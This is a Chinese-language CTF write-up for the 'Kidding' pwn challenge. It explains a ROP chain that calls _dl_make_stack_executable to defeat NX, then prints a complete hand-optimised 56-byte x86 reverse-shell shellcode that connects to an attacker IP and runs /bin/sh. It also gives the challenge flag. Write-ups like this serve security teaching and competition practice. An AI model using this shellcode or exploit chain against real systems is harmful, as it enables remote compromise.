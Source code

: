 Pwn/Kidding
===========
> Solved by 梁智湧

## 程式描述
本題程式為statically linked，在本題中明顯提供解題者一個stack buffer overflow的漏洞，但因為程式有NX保護，必須使用ROP來控制程式行為。在寫入的第12byte後開始覆蓋`main`的return address，共計有**88 bytes的overflow空間**。在程式read完以後便切斷該程式對client的連線，即使拿到shell也無法操控該shell。

## Exploit
較簡單的解決辦法為建立一個reverse shell，但如果全部只使用ROP最多只能放入22個gadgets（包括argument與padding等等）。所幸程式中可以找到`_dl_make_stack_executable`這個function以幫助解除NX保護，接著便可以shellcode來產生一個reverse shell。

### 解除stack的NX保護
參考[此篇writeup](http://radare.today/posts/defeating-baby_rop-with-radare2/)，以下步驟可解除stack的NX保護：

1. 將`__stack_prot`設為`7`。
2. 將`__libc_stack_end`的address放入*eax*中。
3. 呼叫`_dl_make_stack_executable`。

解除NX後使用`call esp`的gadget來執行接著放在stack中的shellcode，截至目前為止最少共需占用8格stack，也就是32 bytes。

### 放入reverse shell的shellcode
建立reverse shell須執行`socket`、`dup2`、`connect`、`execve`等指令，由於總共只有88 bytes的空間，且已用掉32 bytes來解除NX，剩下只能放入最多56 bytes的shellcode來完成reverse shell。但網路上所提供的shellcode最短也要將近70 bytes，距離需求的56 bytes仍有不少距離。以下是兩種解決辦法，在比賽時我們是使用第一種解法：

#### 想辦法硬縮，擠到56 bytes為止（我們使用的辦法）
由於網路上提供的shellcode必須夠general以應付幾乎所有程式state，若能應用當時程式的某些state便可減少一點size。以下簡述減縮shellcode size的辦法：

1. 由於fd中0、1、2皆已被`close`，拿到的socket fd即已為0，因此只需進行一次`dup2`。
2. 由於*ebp*可控（*ebp*的值會等於input中的第8~11 byte），由此可以`push ebp`取代一次`push 0xXXXXXXXX`，省下4 bytes。
3. `push` port時使用*ax*中已有的數值（0x66），port（big endian）將被固定為0x6600（26112）。
4. 沒啥好說的了，就是**硬縮**。

此為最後所使用的shellcode（共56 bytes），其中IP位置須位於*ebp*當中、port固定為26112：
```asm
   0:   6a 01                   push   0x1
   2:   5b                      pop    ebx
   3:   99                      cdq
   4:   b0 66                   mov    al,0x66
   6:   52                      push   edx
   7:   53                      push   ebx
   8:   6a 02                   push   0x2
   a:   89 e1                   mov    ecx,esp
   c:   cd 80                   int    0x80
   e:   5e                      pop    esi
   f:   59                      pop    ecx
  10:   93                      xchg   ebx,eax
  11:   b0 3f                   mov    al,0x3f
  13:   cd 80                   int    0x80
  15:   b0 66                   mov    al,0x66
  17:   55                      push   ebp
  18:   66 50                   push   ax
  1a:   66 56                   push   si
  1c:   89 e1                   mov    ecx,esp
  1e:   0e                      push   cs
  1f:   51                      push   ecx
  20:   53                      push   ebx
  21:   89 e1                   mov    ecx,esp
  23:   b3 03                   mov    bl,0x3
  25:   cd 80                   int    0x80
  27:   b0 0b                   mov    al,0xb
  29:   59                      pop    ecx
  2a:   68 2f 73 68 00          push   0x68732f
  2f:   68 2f 62 69 6e          push   0x6e69622f
  34:   89 e3                   mov    ebx,esp
  36:   cd 80                   int    0x80
```

#### 部分shellcode之後再read
這是賽後聽其他組所使用的辦法。在僅有的56 bytes中不進行`dup2`，只做了`socket`與`connect`，並使用`read`讀進剩餘shellcode以完成`dup2`與`execve`。

## Solver
```bash
$ python solver.py
```

## Flag
`CTF{It_is_just_4_kiddin9}`
